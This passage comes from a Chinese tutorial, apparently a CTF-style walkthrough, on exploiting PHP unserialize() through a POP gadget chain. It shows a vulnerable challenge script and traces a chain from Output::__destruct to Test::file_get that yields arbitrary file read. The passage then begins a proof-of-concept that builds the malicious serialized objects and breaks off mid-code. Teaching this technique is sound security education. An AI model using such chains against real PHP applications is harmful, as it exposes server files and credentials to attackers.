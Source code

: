 ```php
            $value = "index.php";
        }
        return $this->file_get($value);
    }
    public function file_get($value){
        $text = base64_encode(file_get_contents($value));
        return $text;
    }
}
show_source(__FILE__);
$name=unserialize($_GET['strs']);
?>
```

按照前面介绍的利用思路，一步步来套用上。

**1. 寻找原程序中可利用的目标方法，比如包含 system、eval、exec 等危险函数的地方。**

在题目中，没有找到上面用于执行代码或命令的函数，但是在 Test::file_get() 调用 file_get_contents 读取文件内容，如果能够利用它实现任意文件读取也是可取的，因此就以 Test 类方法 file_get 为目标方法；

**2. 追踪调用第 1 步中方法的其他类方法/函数。**

看哪里调用 Test::file_get()，可以看到是 Test::get()，再往上追踪，发现是在 Test::__get() 调用的，这个 __get() 魔术方法的触发条件是：读取不可访问属性值，包括私有或未定义属性。在 Show::__toString() 中就有对未定义属性 $content 的操作，这样就会触发 __get() 方法。再往上追溯，发现 Output::__destruct() 中调用到 echo 函数可触发 __toString() ，这样就得到整个调用链如下：

<Image alt="Lark20210121-180537.png" src="https://s0.lgstatic.com/i/image/M00/8F/EC/CgqCHmAJUuyAZXQKAAB855K4LBk536.png"/>  
图 2 调用链

**3. 寻找可控制第 1 步方法的参数的其他类方法函数。**

这里需要控制的是 file_get_contents($value) 中的参数 $value，依次往上追溯，发现其来自数组中的一个元素值，得到如下传播路径：

<Image alt="Lark20210121-180540.png" src="https://s0.lgstatic.com/i/image/M00/8F/E1/Ciqc1GAJUvSAaqlFAAB9jR92PEM612.png"/>  
图 3 参数传播路径

为了对应 Show::__toString() 中的 $this-\>str\['str'\]-\>source ，我们可以通过array('source'=\>'可控内容') 来控制 $value，即打算读取的文件路径。进一步优化下传播路径：

<Image alt="Lark20210121-180543.png" src="https://s0.lgstatic.com/i/image/M00/8F/E1/Ciqc1GAJUvuASTMYAAB-HQ644z0682.png"/>  
图 4 优化后的参数传播路径

**4. 编写 poc，构建恶意类对象，然后调用 serialize 函数去生成序列化字符串。**

根据图 2 的调用链可以知道，起始的调用类在 Output，因此我们需要反序列化它。

基于前面的分析，PoC 代码如下：

```php
<?php
  class Output{
    public $test;
    public $str;
    public function __construct($name){
          $this->str = $name;
      }
      public function __destruct(){
          $this->test = $this->str;
          echo $this->test;
      }
  }
  class Show{
    public $str;
    public $source;
    public function __toString(){
          $content = $this->str['str']->source;
```